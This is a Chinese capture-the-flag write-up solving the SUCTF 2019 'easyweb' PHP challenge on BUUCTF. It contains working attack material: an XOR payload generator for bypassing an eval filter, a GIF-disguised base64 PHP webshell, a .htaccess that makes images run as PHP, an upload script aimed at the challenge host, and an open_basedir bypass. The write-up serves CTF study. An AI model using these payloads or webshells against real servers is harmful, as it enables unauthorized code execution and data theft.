[SUCTF 2019] easyweb
===

> 题目来源: [BUUCTF](https://buuoj.cn/)

## [SUCTF 2019] easyweb 题解

### 拼凑字符串绕过正则表达式

刚打开靶机就是 php 审计:



```php
 <?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);

    // 上面这段表明文件会以临时文件名存放在 upload/tmp_.md5(远程地址) 这个临时目录上, 并且每 20 分钟清空一次;

    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }

    // 这段表明文件内容过滤了 .ph 开头的文件, 并且内容不能含有 <? 字样, 且会校验文件头是否为图片;
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');


$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);

// 这一段表明 以 GET 方式传入 $_ , 然后进行过滤, 通过过滤的话会执行 eval(@$_), 接下来就是考虑怎么绕过;
// 绕过的逻辑有两段, 1. 输入长度不能超过18, 且字符种类不能超过12; 2. 不能含有该正则表达式中的任何字符;

?>
```

根据这段代码, 这道题主要解决两个问题: 1. 无字符 RCE 构造; 2. 上传 `.htaccess` + `jpg` 的组合来绕过文件上传检查;

#### 正则表达式匹配

首先要看懂这个正则表达式:

```php
preg_match(
    string $pattern,        // 要匹配的模式字符串, 
    string $subject,        // 待搜索字符串,
    array &$matches = null, // 搜索结果数组, $matches[0] 包含完整模式匹配到的文本, $matches[1] 包含第一个捕获子组匹配到的文本，以此类推;
    int $flags = 0,
    int $offset = 0         // 搜索起点的偏移量
): int|false
```

根据 ``'/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i'`` , 参照这个表:



这里屏蔽了 `00` ~ `21` 的控制字符 (下标从 0 开始), 数字, 大小写字母, 和一些特殊字符。

#### 拼凑字符串

由于输入进行了限长, 必须要考虑用 `$_GET[]()` 的方式来构造, `[]` 被过滤了, 此处用 `{}`

##### `$_GET`

这种绕过的本质在于: **`$_GET` 是 PHP 的超全局数组，存储所有 GET 请求参数**。`$_GET` 全局可用, 自动声明, 其底层是 HashTable, 由 php 内部数组实现。

##### 变量变量

PHP 允许动态构造变量名：

```php
$var = '_GET';
$$var;  // 等价于 $_GET
${$var}[]; // 等价于 $_GET[]
```

##### 例子

`$_GET[]()`:

```php
$_GET['a']() 
//= (获取数组元素) + (函数调用)
= 'phpinfo'()  // 假设 $_GET['a'] = 'phpinfo'
= phpinfo()

// 访问数组元素：$_GET['a'] → 返回字符串 'phpinfo'
// 可变函数调用：'phpinfo'() → 执行 phpinfo 函数
```

`$_GET{}()`:

```php
$_GET[]()=$_GET{}()

/*
在 PHP 中：
[] 和 {} 在数组访问时完全等价,
PHP 7.4+ 已弃用 {} 语法，但部分环境仍兼容
*/
```

#### 编写脚本

编写一个 python 脚本来做 payload 输出, 这个脚本流程应该如下:

```
1. 以黑名单或者白名单的方式输入一个正则表达式, 提取其中的可用或者不可用字符集;
2. 做一个预备的字符集, 并根据 1. 中的结果进一步剔除字符集
3. 输入一个目标字符串, 例如 '_GET';
4. 在字符集中以按位异或的方式寻找组合, 并两两组合;
5. 由于字符集中有大量不可见字符, 最好考虑用 URL 编码后输出
```

> 这里有一个坑, 狠狠的踩了, 记录如下: 预留的字符集不应该是 0 ~ 255, 因为最终的字符集是要为 php RCE 服务的, 其字符集很可能会用做变量名或函数名, 那么要避免预留字符;
> - 例如, 考虑下面两个 payload:
>   -   1: `${%7B%7B%7B%7B^%24%3C%3E%2F}{%7B}();&%7B=phpinfo `
>   -   2: `${%86%86%86%86^%d9%c1%c3%d2}{%86}();&%86=phpinfo`
>
> 两者的目标都是执行 `_GET[phpinfo()]`, 但是 1: 会失败, 因为 1 中实际上解析的结果是 `_GET{{}();{=phpinfo`, `{` 会使解析报错, 因此这里要提前剔除这些字符

```python
import re
import sys
from urllib.parse import quote_from_bytes
from datetime import datetime

# 高风险符号的 ASCII 列表，用于二次剔除
BAD_BYTES = [123,125,36,60,62,47,59,38,40,41,61,91,93,124,34,39,96,126]

def parse_regex(expr: str):
    """
    解析正则表达式字符串，支持 '/pattern/flags' 格式。
    参数 expr 应以 '/' 开头，最后一个 '/' 之后为 flag 标志（如 i 忽略大小写）。
    返回编译后的正则对象。
    """
    if not expr.startswith('/'):
        raise ValueError("正则表达式必须以 '/' 开头")
    parts = expr.rsplit('/', 2)
    if len(parts) < 3:
        raise ValueError("正则表达式格式应为 /pattern/flags")
    _, pattern, flag_str = parts
    flags = 0
    if 'i' in flag_str:
        flags |= re.IGNORECASE
    return re.compile(pattern, flags)


def build_charset(mode: str, regex):
    """
    构建可用字符集。
    mode: 'blacklist' 或 'whitelist'。
    将 ASCII 范围 0-255 中的字符，依据黑/白名单规则过滤。
    且移除高风险控制字符，防止解析错误。
    返回可用字节列表。
    """
    available = []
    for b in range(256):
        ch = chr(b)
        match = bool(regex.search(ch))
        if mode == 'blacklist':
            if not match:
                available.append(b)
        else:
            if match:
                available.append(b)
    # 移除高风险符号
    available = [b for b in available if b not in BAD_BYTES]
    if not available:
        raise ValueError("应用正则和模式后，没有可用字符")
    return available


def find_key_byte(available, target_bytes):
    """
    在可用字节中寻找一个密钥字节 k，
    使得对目标每个字节 t，(t ^ k) 都在可用列表中。
    找到则返回 k，否则返回 None。
    """
    for k in available:
        if all((t ^ k) in available for t in target_bytes):
            return k
    return None


def generate_payload(mode, regex_expr, target):
    """
    生成最终的 RCE payload。
    步骤：解析正则 -> 构建字符集 -> 找密钥 -> 构造前后半部分 -> URL 编码。
    返回 URL 编码后的字符串。
    """
    regex = parse_regex(regex_expr)
    available = build_charset(mode, regex)
    target_bytes = target.encode('latin1')
    key = find_key_byte(available, target_bytes)
    if key is None:
        raise ValueError("无法在可用字符集中找到合适的 XOR 密钥")
    left = bytes([key] * len(target_bytes))
    right = bytes([b ^ key for b in target_bytes])
    payload = left + b'^' + right
    # URL 编码，保留 '^' 符号不被编码
    return quote_from_bytes(payload, safe='^')


def prompt_input(prompt, default=None):
    """带默认值的输入提示函数"""
    if default:
        prompt = f"{prompt} (默认: {default}): "
    else:
        prompt = f"{prompt}: "
    value = input(prompt).strip()
    return value if value else default


def main():
    """
    交互式主函数：依次提示用户输入模式、正则和目标字符串，并输出带时间戳的结果（中文）。
    模式支持 b/blacklist(黑名单) 或 w/whitelist(白名单)，默认 whitelist。
    正则默认 '/[A-Za-z0-9]+/i'，目标默认 '_GET'。
    """
    print("=== XOR RCE 载荷生成器 ===")
    mode_input = prompt_input("请输入模式 b=黑名单, w=白名单", "w")
    mode = 'blacklist' if mode_input.lower() in ['b', 'blacklist'] else 'whitelist'
    regex_expr = prompt_input("请输入正则表达式 (/pattern/flags)", "/[A-Za-z0-9]+/i")
    target = prompt_input("请输入目标字符串", "_GET")

    try:
        payload = generate_payload(mode, regex_expr, target)
        timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
        print(f"[{timestamp}] 模式={mode} 正则={regex_expr} 目标={target} -> payload ={payload}")
    except Exception as e:
        print(f"错误: {e}", file=sys.stderr)
        sys.exit(1)

if __name__ == '__main__':
    main()

```

执行脚本:

```
?_=${%80%80%80%80^%DF%C7%C5%D4}{%80}();&%80=phpinfo
```

#### phpinfo()

意外的直接得到了 flag:



### 文件上传漏洞

刚刚是意外解, 按照题意此处应该还有一环文件上传漏洞:

#### 构造木马

由于这里限定了只能上传图片, 那么构造典型的一句话木马:

```php
GIF89a
<?=@eval($_POST['shell']);?>
// 重命名为 shell.jpg
```

其中前面的 `GIF89a` 是伪装的图片文件头。现在的问题是解决 `<?` 处的过滤。

首先想到的是用 `<script>@eval($_POST['shell']</script>` 这个木马, 但是这个用法仅限 php 版本为 `5.x`, 当前环境为 7.0, 只能找其他方法;

先上传一个 `.htaccess` 文件, 这个文件可以指定特定名称/后缀的文件按指定方式解析, 并且支持 php 伪协议:

> 下面这个文件, 指定了 `jpg` 文件按 php 解析, 并且 `shell.jpg` 这个文件按 base64 编码解码后执行;

```php
#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./shell.jpg"
AddType application/x-httpd-php .jpg
```

> 下面这个文件就是 `shell.jpg`, 正文是 `<?=@eval($_POST['shell']);?>` 的 base64 编码, 又因为 base64 编码是自动补足四位 (用 `=` 补全), PHP 将会按 4 位解析, 因此需要保证文件头是 4 的倍数, 随便填两个。

```jpg
GIF89a00
PD89QGV2YWwoJF9QT1NUWydzaGVsbCddKTs/Pg==
```

#### 改包

抓一下这个包, 是 GET, 需要改包:



用 python 改包:

```python
import requests

url = 'http://a62b8769-0bdb-4479-884c-ddd1c57601ab.node5.buuoj.cn:81/?_=${%80%80%80%80^%DF%C7%C5%D4}{%80}();&%80=get_the_flag'

# 构造内容：.htaccess
htaccess_payload = b"""#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./shell.jpg"
AddType application/x-httpd-php .jpg
"""

# 构造内容：shell.jpg
shell_payload = b"""GIF89a00PD89QGV2YWwoJF9QT1NUWydzaGVsbCddKTs/Pg=="""

# Step 1: 上传 .htaccess
files1 = {
    'file': ('.htaccess', htaccess_payload, 'image/jpeg')
}
res1 = requests.post(url, files=files1)
print('[.htaccess 上传] 状态码:', res1.status_code)

# 输出响应文本
print(res1.text)
# Step 2: 上传 shell.jpg
files2 = {
    'file': ('shell.jpg', shell_payload, 'image/jpeg')
}
res2 = requests.post(url, files=files2)
print('[shell.jpg 上传] 状态码:', res2.status_code)

# 输出响应文本
print(res2.text)
```



显示上传成功后, 用蚁剑连接:



此时用蚁剑文件管理已经可以下载 flag 了:





拿到 flag: `flag{2d533c14-2057-4b6e-9389-8aee6f5d134c}`

### 突破 PHP `disable_functions` 限制

连接到终端, 如果用 bash 去找 flag, 会发现存在一点问题, 输入指令回显 `ret = 127`:



回到刚刚的 `phpinfo()` 界面:



可以看到这些常用的提权指令都被禁用掉了; 关键信息: `open_basedir` : `/var/www/html/:/tmp/`

这里用到一种新的提权方法: [bypass open_basedir的新方法](https://xz.aliyun.com/news/4352)

payload:

```php
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```

直接在网站根目录新建这个 `bypass.php`:



直接在浏览器访问 `/bypass.php`:



已经找到了 `THis_Is_tHe_F14g` , 加一句 echo 即可:



